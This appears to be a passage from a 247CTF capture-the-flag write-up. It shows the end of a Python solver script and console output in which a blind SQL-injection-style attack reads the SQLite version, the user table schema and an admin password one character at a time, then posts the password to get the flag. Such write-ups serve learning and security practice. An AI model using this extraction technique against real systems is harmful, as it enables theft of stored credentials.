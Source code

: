 ```python

        password += f"{ret:x}"
        print(f"{password}    ")

    print(password)

    res = s.post(f"{BASE_URL}/api/get_flag", data={"password": password})
    print(res.text)


if __name__ == "__main__":
    main()
```

Result:

```console
$ python3 solver.py
sqlite_version_length=6
sqlite_version='3.25.3'
sql_length=68
sql='CREATE TABLE user (id int primary key, username text, password text)'
record_length=1
5
57
57c
57c6
57c6b
57c6be
57c6bed
57c6bed8
57c6bed8d
57c6bed8de
57c6bed8def
57c6bed8def0
57c6bed8def04
57c6bed8def042
57c6bed8def0422
57c6bed8def04222
57c6bed8def04222b
57c6bed8def04222b1
57c6bed8def04222b14
57c6bed8def04222b14b
57c6bed8def04222b14b3
57c6bed8def04222b14b3b
57c6bed8def04222b14b3b8
57c6bed8def04222b14b3b81
57c6bed8def04222b14b3b81d
57c6bed8def04222b14b3b81dc
57c6bed8def04222b14b3b81dcf
57c6bed8def04222b14b3b81dcf3
57c6bed8def04222b14b3b81dcf31
57c6bed8def04222b14b3b81dcf31a
57c6bed8def04222b14b3b81dcf31ac
57c6bed8def04222b14b3b81dcf31ac6
57c6bed8def04222b14b3b81dcf31ac6
{"message":"247CTF{******}","result":"success"}
```